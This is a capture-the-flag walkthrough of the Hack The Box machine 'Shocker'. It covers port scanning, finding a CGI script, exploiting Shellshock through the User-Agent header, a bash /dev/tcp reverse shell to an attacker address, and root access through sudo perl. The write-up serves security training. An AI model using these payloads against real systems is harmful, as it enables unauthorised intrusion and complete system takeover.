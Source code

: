 ## 🧨 HTB: Shocker Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Exploits**: CVE-2014-6271 (Shellshock)
- **Ports**: 80 (HTTP), 2222 [SSH](SSH)

---

### 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.56
nmap -p 80,2222 -sCV -oA scans/scripts 10.10.10.56
```
- Port 80: Apache/2.4.18 (Ubuntu)
- Port 2222: OpenSSH 7.2p2 (Ubuntu 16.04)

---

### 🌐 [Web Enumeration](HTTP)
```bash
feroxbuster -u http://10.10.10.56 -x php,html -f -n
```
Discovered:
- `/cgi-bin/` directory (403 Forbidden)
- `/cgi-bin/user.sh` script (200 OK)

---

### 🐚 ShellShock (CVE-2014-6271) Exploit
Using Burp or curl to test ShellShock via `User-Agent`:
```http
User-Agent: () { :;}; echo; /bin/ping -c 1 <YOUR_IP>
```
For reverse shell:
```bash
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
```
Start a listener:
```bash
nc -lvnp 443
```
Successful shell as:
```bash
shelly@Shocker:/usr/lib/cgi-bin$
```
Stabilize:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

---

### 🧼 Privilege Escalation
Check `sudo` permissions:
```bash
sudo -l
```
Output:
```bash
(root) NOPASSWD: /usr/bin/perl
```
Exploit:
```bash
sudo perl -e 'exec "/bin/bash"'
```
You now have a root shell:
```bash
root@Shocker:~# cat /root/root.txt
```

---

### 🛠 Beyond Root: Apache Config Quirk
Apache config snippet at `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:
```apache
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
```
The trailing slash is required. Without it, `/cgi-bin` returns 404.

To test:
```bash
curl http://10.10.10.56/cgi-bin/        # 200 OK
curl http://10.10.10.56/cgi-bin         # 404 Not Found
```

---

### 📚 Notes on ShellShock Behavior
- Only bash builtins (e.g. `echo`, `printf`) continue execution after initial eval.
- Binaries (e.g. `python3`, `perl`, etc.) often cause execution to halt.
- Chaining works best with pipes (`|`) rather than `;` or `&&`.


Let me know if you want walkthroughs for other boxes like Sunday, Sense, or Valentine 🧠💥

